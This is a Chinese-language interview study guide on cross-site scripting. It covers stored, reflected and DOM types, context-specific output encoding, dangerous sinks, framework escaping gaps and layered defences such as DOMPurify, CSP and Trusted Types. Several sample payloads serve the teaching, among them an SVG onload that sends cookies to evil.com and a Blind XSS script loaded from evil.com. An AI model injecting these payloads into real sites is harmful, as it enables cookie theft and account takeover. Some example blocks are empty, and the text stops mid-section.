


# 安全 · 01 XSS 跨站脚本攻击

> 覆盖题号：**1**
> 对应原题：《说说你对 XSS 的了解》
> XSS 是**前端安全第一题**，也是最容易答成"背三种类型"的一题。这一册的目标是让你能答出**"注入点 → 上下文 → 编码方式 → 防御层次"**这条完整链路。

---

## 目录

- [1. 一句话结论与本质](#1-一句话结论与本质)
- [2. 三种类型（主干）](#2-三种类型主干)
- [3. 补充类型：mXSS / Self-XSS / Blind XSS](#3-补充类型mxss--self-xss--blind-xss)
- [4. 危害：不只是"弹个窗"](#4-危害不只是弹个窗)
- [5. 五种输出上下文与对应编码（核心）](#5-五种输出上下文与对应编码核心)
- [6. 危险 API 清单（sink）](#6-危险-api-清单sink)
- [7. 框架的自动转义与它的漏洞](#7-框架的自动转义与它的漏洞)
- [8. 防御五层（纵深防御）](#8-防御五层纵深防御)
- [9. 最难的场景：富文本怎么办](#9-最难的场景富文本怎么办)
- [10. 怎么排查项目里的 XSS](#10-怎么排查项目里的-xss)
- [11. 常见坑](#11-常见坑)
- [12. 答题模板](#12-答题模板)
- [13. 追问表](#13-追问表)
- [14. 速记卡](#14-速记卡)

---

## 1. 一句话结论与本质

### 1.1 一句话

**XSS（Cross-Site Scripting）= 攻击者让"他的代码"在"我的页面"的源（origin）下执行。** 因为同源，这段代码拥有我页面的全部权限：读 Cookie、读 DOM、发请求、改界面。

### 1.2 本质：数据被当成了代码

```html
<!-- 正常：用户输入被当成"文本" -->
<p>用户说：你好</p>

<!-- XSS：用户输入被当成"HTML 标签" -->
<p>用户说：</p>
```

**所有注入类漏洞（XSS、SQL 注入、命令注入、模板注入）都是同一个病根**：没有区分"数据"和"代码"。防御的通用解法也只有一个：**在正确的上下文中做正确的编码，让数据永远只是数据。**

> 面试时说这句话，格局会明显不同："XSS 的本质是数据与代码边界失控，和 SQL 注入是同一类问题，只是执行环境从数据库换成了浏览器。"

### 1.3 为什么名字是 XSS 而不是 CSS

因为 CSS 已被 "Cascading Style Sheets" 占用，所以缩写改成 XSS（Cross-Site Scripting → XSS）。

---

## 2. 三种类型（主干）

### 2.1 对比总表

| | **存储型（Stored）** | **反射型（Reflected）** | **DOM 型（DOM-based）** |
|---|---|---|---|
| 恶意代码在哪 | **数据库/服务端存储** | **URL 参数**，服务端原样返回 | **URL/其他客户端源**，前端 JS 自己插入 |
| 是否经过服务端 | 是（存 + 取） | 是（读参数 + 回显） | **否**（服务端可能完全不知情） |
| 触发方式 | 所有访问该页面的人 | 诱导受害者点特定链接 | 诱导点链接，或前端自动读取 |
| 影响范围 | **最大**（一人上传，全员中招） | 单个受害者 | 单个受害者 |
| 持久性 | **持久** | 一次性 | 一次性 |
| 典型场景 | 评论区、昵称、商品评价、个人签名、工单内容、文件名 | 搜索结果页、错误提示页、`?msg=` 回显 | `location.hash` 渲染、`innerHTML` 拼接 |
| 检测难度 | 中 | 低 | **高**（传统 WAF 看不到，payload 在 `#` 后不到服务端） |

### 2.2 存储型：影响最大



```html
<!-- 攻击者在评论区提交 -->


<!-- 或者更隐蔽：用一个不存在的 src 触发 onerror -->
<svg onload="fetch('https://evil.com/?c='+document.cookie)">
```

**为什么最危险**：一个人提交，**所有访问者都会执行**。如果站点有社交属性（如早期的微博、SNS），可以做成**蠕虫**——受害者自动转发带 payload 的内容。

> **历史案例**：2005 年 MySpace 的 Samy 蠕虫，20 小时感染 100 万用户。这是 XSS 最经典的案例，面试提到很有说服力。

### 2.3 反射型：需要诱导点击

```
https://victim.com/search?q=<script>alert(document.cookie)</script>
```

服务端把 `q` 原样拼进 HTML 返回：

```html
<!-- 服务端模板（错误写法） -->
<div>您搜索的是：<%= q %></div>
<!-- 输出：<div>您搜索的是：<script>alert(document.cookie)</script></div> -->
```

**流程**：攻击者构造好链接 → 通过短信/邮件/短链诱导受害者点击 → 服务端把 payload 反射回页面 → 执行。

**注意**：现代浏览器有 XSS Auditor 之类机制吗？没有——`X-XSS-Protection` 已废弃（Chrome 移除了 XSS Auditor），**不能依赖浏览器兜底**。

### 2.4 DOM 型：纯前端，服务端看不到

```js
// ❌ 典型的 DOM XSS：从 location 取值直接进 innerHTML
const keyword = decodeURIComponent(location.hash.slice(1))
document.getElementById('result').innerHTML = `搜索结果：${keyword}`
```

攻击链接：

```
https://victim.com/#
```

**关键特征**：`#` 后面的内容**不会发给服务端**，所以：
- 服务端的 WAF、日志、输入过滤**完全看不到**
- 传统扫描器（只看请求/响应）**检测不到**
- 必须在**浏览器里跑 JS**才能触发

**DOM XSS 的 source（数据来源）清单：**

| Source | 例子 |
|---|---|
| `location.hash` | `#` |
| `location.search` | `?q=` |
| `location.href` / `document.URL` | 整串 URL |
| `document.referrer` | 来源页 URL（可被攻击者控制） |
| `window.name` | 跨页面持久，可被写入 |
| `postMessage` 的 `event.data` | 未校验 origin 时 |
| `localStorage` / `sessionStorage` | 被其他 XSS 写入的脏数据 |
| `document.cookie` | 同上 |
| 接口返回的 JSON（服务端未过滤） | 二次注入 |

**DOM XSS 的 sink（危险出口）清单：**

```js
// ❌ 高危
el.innerHTML = data
el.outerHTML = data
el.insertAdjacentHTML('beforeend', data)
document.write(data)
eval(data)
new Function(data)
setTimeout(data, 0)          // 传字符串时等价于 eval
location = data              // data 是 javascript: 时危险
el.setAttribute('onclick', data)
$(el).html(data)             // jQuery
$(data)                      // jQuery 选择器也会解析 HTML
iframe.srcdoc = data
```

> **一个非常重要的区分**：DOM 型 XSS 不经过服务端，所以**后端过滤救不了你**。必须在前端代码里修。

### 2.5 三型对比的一道经典追问

| 问 | 答 |
|---|---|
| 哪一型影响最大？ | 存储型（一人注入、全员执行、可持久、可蠕虫） |
| 哪一型最难检测？ | DOM 型（payload 不进服务端，WAF 和日志都看不到） |
| 哪一型服务端能独立防住？ | 存储型和反射型可以（输出编码）；DOM 型必须前端改代码 |
| CSP 对哪一型效果最好？ | 都能缓解，但 DOM 型要注意：CSP 挡的是"内联脚本"，`innerHTML` 插 `` 属于内联事件，也会被挡（但这依赖配置正确） |

### 2.6 30 秒版（三型部分）

> "XSS 分三型：**存储型**是恶意代码存进数据库，所有访问者都中招，影响最大；**反射型**是 payload 在 URL 参数里，服务端原样返回，需要诱导点击；**DOM 型**是纯前端的，前端 JS 从 `location.hash` 这类地方取值直接塞进 `innerHTML`，不经过服务端，所以后端过滤和 WAF 都看不到，必须改前端代码。"

---

## 3. 补充类型：mXSS / Self-XSS / Blind XSS

> 这三个是"加分项"。能说出来说明你读过真实案例，不是只背了三型。

### 3.1 mXSS（Mutation XSS）

**原理**：某些看似"已经安全"的 HTML，在经过浏览器解析 → 序列化 → 再解析的过程中会**变形**成可执行的形式。

```js
// 经过一次 sanitize，看起来安全
const clean = sanitize('<noscript><p title="</noscript>">')
// 序列化后再被 innerHTML 解析时，<noscript> 的内容被重新解析成真实标签
```

**为什么重要**：这解释了"**为什么不能自己写正则过滤 HTML，必须用 DOMPurify 这类经过大量 mXSS 测试的库**"。

### 3.2 Self-XSS

**原理**：诱骗受害者**自己在控制台粘贴代码**。

> 常见话术："复制这段代码到控制台，可以解锁会员"。

**防御**：控制台警告、禁止粘贴到 console（做不到）、用户教育。

### 3.3 Blind XSS

**原理**：payload 提交后不会立刻执行，而是**在管理员后台执行**（比如客服工单系统、日志查看页）。

```
攻击者在"联系客服"里提交：<script src="https://evil.com/x.js"></script>
→ 客服在后台打开工单时执行
→ 攻击者拿到管理员权限
```

**为什么危险**：从"低权限用户"跳到"管理员"。**所以后台系统也必须做输出编码**——很多团队只保护 C 端页面，忽略了后台。

---

## 4. 危害：不只是"弹个窗"

> 面试官常追问"XSS 能造成什么后果"。如果只答"窃取 Cookie"，太单薄。

| 危害 | 说明 |
|---|---|
| **窃取凭证** | `document.cookie`（若没 HttpOnly）、`localStorage` 里的 token |
| **以受害者身份操作** | 用他的登录态发请求：转账、发消息、改密码（**XSS 可以直接绕过 CSRF 防护**，因为它在同源内） |
| **键盘记录** | 监听 `keydown`，把用户输入的密码、卡号发出去 |
| **页面篡改 / 钓鱼** | 把登录框替换成假的，诱导重新输入密码 |
| **蠕虫传播** | 自动发带 payload 的内容给好友（存储型 + 社交功能） |
| **挖矿 / 僵尸网络** | 注入 `<script src="coinminer.js">`，用用户 CPU 挖矿 |
| **内网探测** | 用受害者的浏览器访问内网地址（浏览器在内网里） |
| **绕过 CSRF 防护** | CSRF Token 在页面里，XSS 能直接读出来——**这是"XSS 比 CSRF 更严重"的核心理由** |
| **读取页面全部数据** | 同源，所以能读任何渲染出来的信息（订单、余额、聊天记录） |
| **持久化后门** | 注册 Service Worker，即使用户改了密码也能继续控制 |

### 一句很能打的总结

> "XSS 的本质是**在受害者的 origin 里执行任意代码**，所以它等于'受害者的浏览器被远程控制'。Cookie 只是最表面的损失——真正的危险是它能以受害者身份做任何事，而且**可以绕过 CSRF 防护**，因为 CSRF Token 就渲染在页面里。"

---

## 5. 五种输出上下文与对应编码（核心）

> **这一节是 XSS 防御的技术核心。** 大部分人只知道"HTML 转义 `<` 和 `>`"，但**同一份数据放在不同位置，需要不同的编码**。这是"输出编码（Output Encoding）"和"输入过滤（Input Filtering）"的根本区别。

### 5.1 五种上下文

| # | 上下文 | 示例 | 正确做法 | 错误做法的后果 |
|---|---|---|---|---|
| ① | **HTML 正文** | `<div>用户输入</div>` | HTML 实体编码 `& < > " '` | 插入 `` 直接执行 |
| ② | **HTML 属性** | `<input value="用户输入">` | **属性值加引号** + 编码 `"` 和 `'` | 闭合引号后注入新属性 `" onfocus="alert(1)` |
| ③ | **URL 参数** | `<a href="/s?q=用户输入">` | `encodeURIComponent` + **校验 scheme** | `javascript:alert(1)` 直接执行 |
| ④ | **JS 字符串** | `<script>var a = '用户输入'</script>` | `JSON.stringify` + 转义 `</script>` | 闭合引号注入语句；`</script>` 提前闭合标签 |
| ⑤ | **CSS** | `<style>.x{background:url(用户输入)}</style>` | 尽量避免；必须用则严格白名单 | `expression()`（老 IE）、`url(javascript:)` |

### 5.2 逐个看代码

**① HTML 正文**

```js
function escapeHtml(str) {
  return String(str)
    .replace(/&/g, '&amp;')     // 必须第一个替换
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;')
}

el.textContent = userInput          // ✅ 最安全，浏览器自动处理
el.innerHTML = escapeHtml(userInput) // ✅ 手动编码后可用
el.innerHTML = userInput             // ❌ 危险
```

> **`textContent` 是最省事的方案**：浏览器会把内容当纯文本节点插入，天然安全。**能不用 `innerHTML` 就不用。**

**② HTML 属性**

```html
<!-- ❌ 危险：属性没加引号 -->
<div class=user-{{ cls }}>    <!-- cls = 'x onclick=alert(1)' -->

<!-- ✅ 正确：加引号 + 编码引号 -->
<div class="{{ escapeAttr(cls) }}">
```

```js
function escapeAttr(str) {
  return String(str)
    .replace(/&/g, '&amp;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
}
```

> **特别注意**：**不用引号的属性是 XSS 重灾区**。`<div class=xxx>` 里 `xxx` 可以包含空格，从而"逃出"属性值变成新属性。

**③ URL —— 最容易被忽略的一类**

```js
// ❌ 危险：只做了编码，没校验协议
const url = `https://site.com/redirect?to=${encodeURIComponent(userInput)}`
// userInput = "javascript:alert(1)" → 编码后还是 javascript:alert(1)

// ✅ 正确：白名单校验协议
function safeUrl(input) {
  try {
    const u = new URL(input, location.origin)
    // 只允许 http/https，且如果是绝对 URL 还要校验域名白名单
    if (!['http:', 'https:'].includes(u.protocol)) return '#'
    return u.href
  } catch {
    return '#'
  }
}
```

```html
<!-- 三种危险写法 -->
<a href="javascript:alert(1)">x</a>
<a href="java&#x09;script:alert(1)">x</a>       <!-- 用制表符绕过字符串匹配 -->
<a href="data:text/html,<script>alert(1)</script>">x</a>
```

> **为什么 `javascript:` 特别危险**：它会在**当前页面上下文**执行，等价于直接 XSS。而且浏览器对 `javascript:` 的解析很宽容（允许前后空白、制表符、HTML 实体），**黑名单匹配 `<script>` 完全防不住**。

**④ JS 字符串**

```js
// ❌ 危险：直接拼
const html = `<script>var name = "${userName}"</script>`
// userName = '";alert(1);//'  →  var name = "";alert(1);//";

// ✅ 正确一：JSON.stringify（会转义引号和反斜杠）
const html = `<script>var name = ${JSON.stringify(userName)}</script>`

// ✅ 正确二：压根不要内联，用 data-* 属性传
<div id="app" data-name="${escapeAttr(userName)}"></div>
```

**还有第二个坑：`</script>` 会提前闭合脚本块。**

```js
// 危险：userInput = "</script><script>alert(1)</script>"
`<script>var x = "${userInput}"</script>`

// ✅ 正确：把 </ 转义
`<script>var x = ${JSON.stringify(userInput).replace(/</g, '\\u003c')}</script>`
```

> **`\u003c` 技巧**：JSON 输出到 `<script>` 里时，把 `<` 转成 `\u003c`，这样 `</script>` 无法提前闭合标签。这是很多模板引擎（如 `serialize-javascript`）的标准做法。

**⑤ CSS**

```html
<!-- ❌ 危险 -->
<div style="background: url({{ userInput }})">
```

**基本建议**：**CSS 上下文里不要放用户输入**。如果必须（比如自定义主题色），只允许严格的格式白名单：

```js
function safeColor(input) {
  return /^#[0-9a-fA-F]{3,8}$/.test(input) ? input : '#000'
}
```

### 5.3 一条必须记住的原则

> **"输入过滤"和"输出编码"是两件事。**
>
> - **输入过滤**（黑名单删 `<script>`）：**一定会漏**（``、`<svg onload>`、编码变形、mXSS）
> - **输出编码**（按上下文转义）：**理论上完备**，只要在正确的上下文用正确的编码，就无法逃逸
>
> 所以正确姿势是：**入口做"白名单式的格式校验"（比如手机号只能是数字），出口做"上下文相关的编码"。** 而不是在入口用正则删掉 `script` 三个字母。

### 5.4 一张"我要输出到哪里"的决策表

```
我要把用户数据渲染到页面
│
├─ 只是纯文本？
│    └─ 用 textContent / {{ }} / {value}  → 框架自动处理 ✅ 收工
│
├─ 需要是 HTML（富文本、markdown 渲染）？
│    └─ 必须 DOMPurify 消毒 → 见第 9 节
│
├─ 是链接地址？
│    ├─ 校验协议白名单（http/https）→ 否则置 '#'
│    └─ 外链加 rel="noopener noreferrer"
│
├─ 是图片地址？
│    ├─ 校验协议 + 域名白名单
│    └─ 注意 SVG 可以带脚本 → 见 11 章
│
└─ 要放进 <script> 或 style？
     └─ 尽量避免；必须用则 JSON.stringify + 转义 <
```

---

## 6. 危险 API 清单（sink）

### 6.1 清单

| API | 风险 | 替代 |
|---|---|---|
| `el.innerHTML = x` | 解析 HTML，执行事件属性 | `textContent`、`el.replaceChildren()` |
| `el.outerHTML = x` | 同上 | 同上 |
| `el.insertAdjacentHTML(pos, x)` | 同上 | `insertAdjacentText` |
| `document.write(x)` | 解析 HTML | 用 DOM API |
| `eval(x)` / `new Function(x)` | 执行任意代码 | `JSON.parse`（对 JSON 数据） |
| `setTimeout(str, n)` | 传字符串时相当于 eval | 传函数 |
| `location = x` / `location.href = x` | `javascript:` 协议 | 校验协议 |
| `el.setAttribute('onclick', x)` | 内联事件 | `addEventListener` |
| `$(x)` / `$(el).html(x)` / `.append(x)`（字符串） | jQuery 解析 HTML | `.text()` |
| `iframe.srcdoc = x` | 同源执行 | 用 `sandbox` + 独立域 |
| `el.style.cssText = x` | 可注入 `url(javascript:)`（老浏览器） | 逐属性设置 |

### 6.2 怎么在项目里快速找

```bash
# 快速扫描项目里的危险 sink（在 CI 里跑，作为卡口）
grep -rn --include='*.{js,jsx,ts,tsx,vue}' \
  -E "innerHTML|outerHTML|insertAdjacentHTML|document\.write|dangerouslySetInnerHTML|v-html|srcdoc|eval\(|new Function\(" \
  src/
```

> **实践建议**：把这条 grep 接进 CI（或 ESLint 规则 `no-unsanitized`），命中就要求 review 说明理由。**这比"提醒大家注意"有效 100 倍。**

### 6.3 ESLint 插件

```js
// eslint-plugin-no-unsanitized：禁止 innerHTML 等危险赋值
{
  "plugins": ["no-unsanitized"],
  "rules": {
    "no-unsanitized/property": "error",
    "no-unsanitized/method": "error"
  }
}
```

---

## 7. 框架的自动转义与它的漏洞

> 现代框架默认转义，这是好事，但也带来一个危险的心理："用了 Vue/React 就安全了"。**框架只在你用它的"正常姿势"时保护你。**

### 7.1 Vue

```vue
<!-- ✅ 安全：{{ }} 是文本插值，自动转义 -->
<div>{{ userInput }}</div>

<!-- ❌ 危险：v-html 等价于 innerHTML -->
<div v-html="userInput"></div>

<!-- ⚠️ 属性绑定一般安全，但 href 要小心 -->
<a :href="userUrl">链接</a>
<!-- userUrl = "javascript:alert(1)" → Vue 3 会警告但不阻止 -->
```

```vue
<!-- ✅ 正确姿势：需要 HTML 时先消毒 -->
<script setup>
import DOMPurify from 'dompurify'
import { computed } from 'vue'

const props = defineProps({ html: String })
const safeHtml = computed(() => DOMPurify.sanitize(props.html))
</script>

<template>
  <div v-html="safeHtml"></div>
</template>
```

> **Vue 3 的一个细节**：`v-html` 的内容**不会**被编译成模板（不会被当作 Vue 模板解析），所以不用担心 `{{ }}` 注入，但**HTML 本身的 XSS 风险依然存在**。

### 7.2 React

```jsx
// ✅ 安全：JSX 自动转义
<div>{userInput}</div>

// ❌ 危险：只有名字里带 dangerous 的那个 API
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// ⚠️ href / src 要校验
<a href={userUrl}>链接</a>   // javascript: 依然会执行（React 17+ 有警告）
```

### 7.3 一个容易忽略的点：服务端模板也会转义，但取决于写法

| 模板 | 安全写法 | 危险写法 |
|---|---|---|
| EJS | `<%= x %>`（转义） | `<%- x %>`（不转义） |
| Jinja2 | `{{ x }}` | `{{ x \| safe }}` |
| Thymeleaf | `th:text` | `th:utext` |
| Handlebars | `{{ x }}` | `{{{ x }}}` |

> **`<%- %>` 和 `{{{ }}}` 这种"不转义"语法，是服务端渲染项目里最常见的 XSS 来源。**

### 7.4 结论

> "框架的自动转义解决了 80% 的场景，但剩下 20% 恰恰是最容易出事的：`v-html`、`dangerouslySetInnerHTML`、`href` 绑定、以及服务端模板的不转义语法。所以我的做法是**把这些 API 用 lint 规则禁掉，只在明确需要时开白名单**。"

---

## 8. 防御五层（纵深防御）

> 面试答"怎么防 XSS"，如果只说"转义"，是及格；说到"五层"，是优秀。



### 8.1 第一层：输出编码（根本）

见第 5 节。**这一层做对，XSS 基本不可能发生。**

### 8.2 第二层：用安全的 API

```js
// ✅ 优先用这些
el.textContent = data              // 文本
el.setAttribute('data-x', data)    // 属性（值会被当字符串）
el.replaceChildren(node1, node2)   // 替换子节点
document.createTextNode(data)      // 创建文本节点
```

### 8.3 第三层：消毒（需要渲染 HTML 时）

```js
import DOMPurify from 'dompurify'

// 默认配置已经很安全（会移除 script、on* 事件、javascript: 协议）
const clean = DOMPurify.sanitize(dirtyHtml)

// 允许特定标签（如富文本）
const clean2 = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'ul', 'ol', 'li', 'a', 'img', 'h1', 'h2', 'h3'],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class'],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto):/i,   // 只允许这几种协议
  FORBID_TAGS: ['style', 'form', 'input'],
  FORBID_ATTR: ['style', 'onerror', 'onload'],
})

// 配合 Trusted Types（见 8.5）
const trusted = DOMPurify.sanitize(dirtyHtml, { RETURN_TRUSTED_TYPE: true })
el.innerHTML = trusted
```

**为什么必须用库而不是自己写正则：**

| 自己写正则的问题 | 例子 |
|---|---|
| 事件属性有很多种 | `onerror` `onload` `onfocus` `onanimationstart`… |
| 标签可以嵌套绕过 | `<scr<script>ipt>` 删一次后拼成 `<script>` |
| 编码变形 | `&#x6a;avascript:`、`\u006a` |
| 浏览器容错解析 | 畸形标签浏览器也会执行 |
| **mXSS** | 序列化/再解析过程中变形 |

### 8.4 第四层：CSP

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-{random}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
```

**CSP 对 XSS 的作用**：即使攻击者成功注入了 `<script>` 或 `onerror`，因为**没有 nonce**，浏览器也会拒绝执行。

**CSP 的边界（要能说清）**：CSP 是**缓解**，不是修复。它挡不住"已经存在的合法脚本被滥用"（比如页面自己的 JS 把数据写进 `innerHTML`，如果 CSP 允许 `unsafe-inline` 或该脚本被信任）。详见 03 册。

### 8.5 第五层：兜底手段

| 手段 | 作用 | 局限 |
|---|---|---|
| `HttpOnly` Cookie | XSS 读不到 Cookie | 挡不住 XSS 直接发请求（见 02 册） |
| `Secure` Cookie | 只在 HTTPS 发送 | 与 XSS 无关 |
| **Trusted Types** | 强制所有 HTML 赋值走策略，从 API 层面根除 sink | 需要 Chrome 系 + 改造代码 |
| `X-Content-Type-Options: nosniff` | 防上传文件被当脚本执行 | — |
| SRI | 防 CDN 资源被篡改（等于防"外部注入"） | 只对 `<script>`/`<link>` 有效 |

**Trusted Types 示例（现代最强防御）：**

```http
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types default dompurify
```

```js
// 开启后，el.innerHTML = 字符串 会直接抛错
// 必须通过策略创建"可信"内容
const policy = trustedTypes.createPolicy('default', {
  createHTML: (dirty) => DOMPurify.sanitize(dirty),
})
el.innerHTML = policy.createHTML(userInput)   // ✅
el.innerHTML = userInput                       // ❌ TypeError
```

> **这是目前唯一能"从根上消灭 DOM XSS sink"的手段**，因为它把"字符串"和"HTML"在类型系统里分开了。Google 内部已全面启用。提到它是明显的加分项。

### 8.6 30 秒版（防御部分）

> "我按纵深防御讲五层：第一层也是最根本的是**输出编码**——按上下文（HTML 正文、属性、URL、JS 字符串、CSS）做对应转义；第二层是用**安全 API**，比如 `textContent` 而不是 `innerHTML`，框架的 `{{ }}` 而不是 `v-html`；第三层是必须渲染 HTML 时用 **DOMPurify 消毒**，不要自己写正则；第四层是 **CSP**，用 nonce 挡住注入的内联脚本；最后是兜底，Cookie 加 **HttpOnly**，以及用 **Trusted Types** 从 API 层面禁掉危险的 HTML 赋值。"

---

## 9. 最难的场景：富文本怎么办

> 富文本编辑器（评论带格式、站内信、商品详情）是 XSS 防御最难的场景，因为它**必须允许一部分 HTML**。面试如果追问到这里，能答清就说明你做过真实项目。

### 9.1 为什么难

| 难点 | 说明 |
|---|---|
| 不能全转义 | 否则用户看不到加粗、图片 |
| 黑名单必漏 | 事件属性、`data:` 协议、SVG、`<iframe>` |
| 前后端都要过滤 | 前端过滤可被绕过（直接发请求），后端必须再过滤一次 |
| 展示和编辑要求不同 | 编辑时可能需要更多标签 |
| 富文本还会被二次处理 | 导出 PDF、转发到其他系统时可能重新解析 |

### 9.2 正确做法（四步）

```
① 服务端存储"原始内容"  → 不做破坏性过滤（保留原文以便重新渲染/审计）
② 服务端输出时过滤       → 用成熟库（如 Java 的 OWASP Java HTML Sanitizer）
③ 前端渲染前再过滤一次   → DOMPurify（纵深防御，成本低）
④ 用 CSP 兜底            → 即使漏了也执行不了
```

### 9.3 DOMPurify 的富文本配置

```js
const RICH_TEXT_CONFIG = {
  ALLOWED_TAGS: [
    'p', 'br', 'span', 'div',
    'strong', 'b', 'em', 'i', 'u', 's',
    'h1', 'h2', 'h3', 'h4',
    'ul', 'ol', 'li',
    'blockquote', 'pre', 'code',
    'a', 'img',
    'table', 'thead', 'tbody', 'tr', 'th', 'td',
  ],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class', 'target', 'rel'],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto|tel):/i,
  // 强制外链安全
  ADD_ATTR: ['target'],
  // 禁止 style（可被用于 UI 伪装/点击劫持辅助）
  FORBID_ATTR: ['style'],
}

// 额外钩子：给所有 a 标签加 rel
DOMPurify.addHook('afterSanitizeAttributes', (node) => {
  if (node.tagName === 'A' && node.getAttribute('target') === '_blank') {
    node.setAttribute('rel', 'noopener noreferrer')
  }
})

export function sanitizeRichText(html) {
  return DOMPurify.sanitize(html, RICH_TEXT_CONFIG)
}
```

### 9.4 图片上传的一个隐蔽风险

```
用户上传 1.svg：
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.cookie)</script>
</svg>
```

如果这个 SVG 被**同源**直接访问（`https://site.com/uploads/1.svg`），其中的 script 会在**你的站点源下执行** —— 这是完整的 XSS。

**防御：**

| 手段 | 说明 |
|---|---|
| 上传目录用**独立域名** | `https://cdn-static.example.com`，与主站不同源 |
| 响应头 `Content-Disposition: attachment` | 强制下载而非渲染 |
| 响应头 `Content-Type: image/svg+xml` + `X-Content-Type-Options: nosniff` | 防 MIME 嗅探 |
| SVG 上传前消毒 | 用 DOMPurify 的 SVG 配置 |
| 或直接禁止上传 SVG | 最省事 |

---

## 10. 怎么排查项目里的 XSS

### 10.1 代码审计三步

```
① 找 sink：grep innerHTML / v-html / dangerouslySetInnerHTML / eval / location
② 顺着 sink 找 source：这个值从哪来？URL？接口？用户输入？
③ 判断有没有经过编码/消毒：如果没有，就是漏洞
```

### 10.2 动态测试

| 方法 | 说明 |
|---|---|
| 手工插 payload | 在每个输入点试 ``、`"><svg onload=alert(1)>`、`javascript:alert(1)` |
| 浏览器 DevTools | 看最终 DOM 里 payload 是否变成了真实标签（**关键判据**） |
| 自动扫描 | OWASP ZAP、Burp Suite、XSStrike |
| 看 CSP 报告 | 配 `report-uri` / `report-to` 收集被拦截的记录，**这是线上发现 XSS 的最佳手段** |

### 10.3 线上监控（很实用的一招）

```js
// CSP report-only 模式先跑一段时间，收集所有违规
// 如果 review 日志里出现大量"用户输入触发的 script-src 违规"
// 说明有人在尝试注入，或者你自己的代码有 sink
```

---

## 11. 常见坑

| # | 坑 | 纠正 |
|---|---|---|
| 1 | 只转义 `<` 和 `>` | 属性上下文还要转义引号；URL 上下文要校验协议 |
| 2 | 在入口用正则删 `script` | 黑名单必漏；应在出口按上下文编码 |
| 3 | 认为用了 Vue/React 就安全 | `v-html` / `dangerouslySetInnerHTML` 照样能 XSS |
| 4 | 只防 C 端不防后台 | Blind XSS 就是打后台的；后台更要防 |
| 5 | 认为后端过滤就能防 DOM 型 | DOM 型 payload 不进服务端，必须前端改代码 |
| 6 | `href` 直接绑用户输入 | `javascript:` 协议会执行；必须白名单校验 |
| 7 | 属性不加引号 | `<div class={{x}}>` 可以用空格逃逸 |
| 8 | 用 `escape()` / `encodeURI()` 当 HTML 转义 | `encodeURI` 不转义 `& < >`，用途不同 |
| 9 | 富文本只在后端过滤 | 前端也要过 DOMPurify（纵深），且后端必须过滤 |
| 10 | 用户上传的 SVG/HTML 同源访问 | 等于给攻击者一个上传 XSS 的入口；用独立域 + `attachment` |
| 11 | 把 HTML 塞进 `<script>` 里 | `</script>` 会提前闭合；用 `JSON.stringify` + 转 `<` |
| 12 | 依赖 `X-XSS-Protection` | 已废弃，Chrome 移除了 XSS Auditor，应设为 `0` |
| 13 | CSP 加了 `'unsafe-inline'` 还以为能防 | 等于没配（见 03 册） |

---

## 12. 答题模板

### 12.1 「说说你对 XSS 的了解」——30 秒（及格线）

> "XSS 是攻击者把恶意脚本注入到我的页面里，在受害者浏览器执行，因为同源，所以能读 Cookie、读 DOM、以用户身份发请求。分三型：存储型存在数据库里，影响所有访问者；反射型在 URL 参数里由服务端回显；DOM 型是纯前端的，前端 JS 从 `location` 取值直接 `innerHTML`。防御主要是输出编码、CSP、少用 `innerHTML`、Cookie 加 HttpOnly。"

### 12.2 ——2 分钟（高分线）

